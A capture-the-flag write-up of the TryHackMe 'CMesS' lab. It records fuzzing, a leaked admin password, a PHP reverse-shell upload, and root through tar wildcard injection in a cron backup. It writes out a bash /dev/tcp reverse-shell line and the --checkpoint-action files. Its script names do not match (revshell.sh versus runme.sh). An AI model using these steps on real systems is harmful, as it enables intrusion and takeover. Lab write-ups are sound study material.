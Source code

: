[+] CMesS

#### IP Address

```bash
EXPORT IP=10.10.194.54
```

## Nmap

Ports open:
- 22 - ssh (7.2p2) **Ubuntu**
- 80
    - Apache 2.4.18
    - Gila CMS
    - 3 disallowed entries via robots.txt

## Ffuf

/index
/blog - same as index
/about
/search
/login
/1 - lists of blog posts/where i think they're stored?
/category
/01
/themes - no access
/feed
/api
/001
/1pix
/fm
/tmp
/1a

Checking subdomains

## Initial thoughts

Says it's Gila CMS, wonder if it's vulnerable to anything off the bat.

Was not able to get any of the CVE's found in searchsploit to work.

After some digging around, I found nothing and ended up having to use the hint on THM. Told me to search for subdomains which is something I hadn't even thought of (I hadn't setup the proper domain in /etc/hosts)

After adding that, and some messing around with Ffuf I was able to find something.

Using ffuf:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fw 522
```

I used -fw 522 as I was getting a ton of results, all with a wordcount of 522. I had a feeling that this was because they were all redirecting to a specific spot. Because of this, I found the "dev" subdomain.

This contained the user "andre" and the password "KPFTN_f2yxe%"

I first attempted to login to ssh using this username/password but was unsuccessful, so I went ahead and logged into the /admin page with this and **it worked**

## Web access

As I was logged into the /admin page, I was looking around and found a lot of information about the server itself (what versions of everything that were running)

Additionally, I found an upload portal. First thought was to upload a php reverse shell as that was what was running, and was able to upload it.

It upload into cmess.thm/access/revshell.php. I was able to get a reverse shell from this.

Once I had access, I spun up a python3 http.server to transfer over linpeas.

After running linpeas, it found a password.bak file in /opt/, this contained the user Andre's password. This allowed me to login via ssh.

Once I was logged into Andre via SSH, I still had my original shell open with linpeas to check back with. I was looking through and saw that one of the crontabs had a wildcard with it.

I was able to create a reverse shell by abusing tar arguments as follows from within the directory the tar backup was looking for:


First, I created my revshell file:
```bash
echo 'bash -i >& /dev/tcp/10.2.110.157/9999 0>&1' > revshell.sh

chmod +x revshell.sh
```


Next, I created arguments (files) that tar would look for and run my revshell.sh script
```bash
touch /home/andre/backup/--checkpoint=1

touch /home/andre/backup/--checkpoint-action=exec=sh\ runme.sh
```

Had a lot of trouble getting the syntax for the second touch command to work properly, but once I had it all I had to do was wait with a netcat listener and I got root.
